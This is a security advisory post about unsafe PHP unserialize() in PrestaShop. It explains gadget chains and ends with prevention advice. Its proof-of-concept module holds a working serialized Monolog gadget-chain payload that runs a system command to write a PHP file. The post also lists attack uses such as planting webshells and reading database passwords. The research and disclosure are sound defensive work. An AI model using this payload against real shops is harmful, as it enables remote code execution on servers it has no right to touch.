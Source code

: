```yaml
---
layout: post
title: "[CWE-502] Exploring the perils of unsafe unserialize() in PrestaShop (part 1)"
categories: research
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,CWE-502"
severity: "critical (10)"
---
```


The deserialization of instantiated objects in PHP involved the trigger of the magic methods `__construct()`, `__wakeup()` and `__destruct()`. 

A Smarty, Monolog or Symfony library's [Gadget](https://en.wikipedia.org/wiki/Gadget_(computer_science)) hydratation with a malicious payload followed by its deserialization can be exploited in multiple malicious critical usages.

Until this present research, we did not have any known gadget on our ecosystem that can justify a CVE against `unserialize` usage.

## Summary

* **Published at**: 2023-08-28
* **Platform**: All CMS especially PrestaShop.
* **Weakness**: [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
* **Severity**: critical (10)

## Unsafe PHP method unserialize() (part 1)

### How it works?

Let's take an example. The `Smarty` template engine cache process is scheduled to create a lock file at the beginning and remove it at the end during the destruct of `Smarty`'s object. 

A Gadget of this object, a sort of "mockup" of the original class, can be crafted with a target file as parameter. Then, it will remove the target during the deserialization of the Gadget. `Smarty` cache class can be hijacked to delete any files of the vulnerable application.

Please read this article to know more about [unsafe unserialize() in PHP](https://www.sjoerdlangkemper.nl/2021/04/04/remote-code-execution-through-unsafe-unserialize/).


### Proof of concept

Similarly, the popular library `Monolog` can be hijacked to execute remote code. Let’s explain it in a POC.

We created a simple module to demontrate the danger of a deserialization. Please note that any php script that include PrestaShop core file `config/config.inc.php` load vendors libraries and consequently `Monolog` (PS 1.7+) or others libraries.

**FOR EDUCATIONAL PURPOSES ONLY. DO NOT USE THIS SCRIPT FOR ILLEGAL ACTIVITIES. THE AUTHOR IS NOT RESPONSIBLE FOR ANY MISUSE OR DAMAGE.**

1. Create a module

```php
// modules/mymodule/mymodule.php

class Mymodule
{
...
    public function getContent()
    {
        $payload = 'O:37:"Monolog\Handler\FingersCrossedHandler":3:{s:13:"passthruLevel";i:0;s:6:"buffer";a:1:{s:4:"test";a:2:{i:0;s:45:"echo \'<?php echo "♥" . (25-125);\' > ./a.php";s:5:"level";N;}}s:7:"handler";O:29:"Monolog\Handler\BufferHandler":7:{s:7:"handler";N;s:10:"bufferSize";i:-1;s:6:"buffer";N;s:5:"level";N;s:11:"initialized";b:1;s:11:"bufferLimit";i:-1;s:10:"processors";a:2:{i:0;s:7:"current";i:1;s:6:"system";}}}';

        $unsafeDeserialization = unserialize($payload);

        return var_dump($unsafeDeserialization, true);
    }
...
```

2. Go to the configuration page of the module.

3. This piece of code will put an `a.php` file in the designated directory of PrestaShop.


### Malicious usage through PrestaShop dependencies

Malicious usages of PrestaShop via common libraries are:
* remote code execution (RCE) to put a webshell
* Server Side Request Forgery (SSRF) to aggress other website with a clean IP
* File Deletion (FD) to remove an htaccess and expose logs or sensitive data
* File Writer (WF) to put a webshell
* Files read reader (RF) to read sensitive data like mysql password
* SQL injections (SQLi)
* Technical data leaks (Info)

|PrestaShop dependency|Malicious usage|
| ------|-----|
|Smarty|SSRF and FD|
|Monolog|RCE and FW|
|Symfony|FD, FW, and RCE|
|Doctrine|RCE and FW|
|TCPDF|FD|
|Guzzle|FW, Info and RCE|

Source: [PHP Generic Gadget Chains](https://github.com/ambionics/phpggc/tree/master/gadgetchains)

NB 1: This list is not exhaustive. Module dependencies can also include other hijackable classes.

NB 2: Several PrestaShop core or modules configurations are stored in database as serialized strings. In chain, a SQL injection can also be exploited to inject malicious serialized string that will be triggered during the deserialization.


### How to prevent this vulnerability?

As you understand, `unserialize($_GET['param'])` (or `$_POST`, `$_COOKIE`, ...), each **untrusted data unserialized is a critical vulnerability**. 

* A strict validation of input data is absolutely essential!
* Use json serialization instead as soon as possible : `json_encode` and `json_decode`
* Disable the deserialization of classes via `unserialize($args, ['allowed_classes' => false])`. That's not perfect but better than nothing.


